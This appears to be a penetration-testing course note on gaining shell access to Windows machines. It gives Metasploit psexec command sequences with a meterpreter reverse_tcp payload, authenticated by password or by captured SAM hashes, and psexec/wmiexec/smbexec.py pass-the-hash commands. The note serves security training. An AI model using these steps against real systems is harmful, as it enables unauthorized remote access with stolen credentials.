 ```yaml
---
tags:
  - PEH
---
```

## Gaining [[Shell access and its types|shell access]] using [[Metasploit - ميتاسبلويت|MS]]
### Using password
```bash
# We want to look for exploit/windows/smb/psexec and use it
msf > search psexec
msf > use <number-of-exploit/windows/smb/psexec>

# Now we want to change the payload to a windows/x64 one
msf > set payload windows/x64/meterpreter/reverse_tcp

# Set the RHOST, SMBDomain=MARVEL, SMBUser, SMBPass
msf > set <mentioned-above> <value>

# Exploit!
msf > run
```
### Using SAM hashes

>[!NOTE] Format
>The format of the hash in the SAM file is (LM:NT).

To utilize SAM hashes captured from the [[SMB Relay Attacks|SMB Relay attacks]]:
```bash
# We want to look for exploit/windows/smb/psexec and use it
msf > search psexec
msf > use <number-of-exploit/windows/smb/psexec>

# Now we want to change the payload to a windows/x64 one
msf > set payload windows/x64/meterpreter/reverse_tcp

# Set SMBUser to administrator
msf > set SMBUser administrator

# Make sure to unset the SMBDomain
msf > unset SMBDomain

# Set SMBPass to the hash
msf > set SMBPass <admin-hash>

# Exploit!
msf > run
```
## Gaining shell access using ps/wmi/smbexec.py
### Using password
```bash
# Two ways to execute it
ps/wmi/smbexec.py <domain-name>/<username>:"<password>"@<ip-address>
ps/wmi/smbexec.py <domain-name>/<username>:@<ip-address>
```
### Using SAM hash
```bash
ps/wmi/smbexec.py administrator@<ip-address> -hashes <admin-hash>
```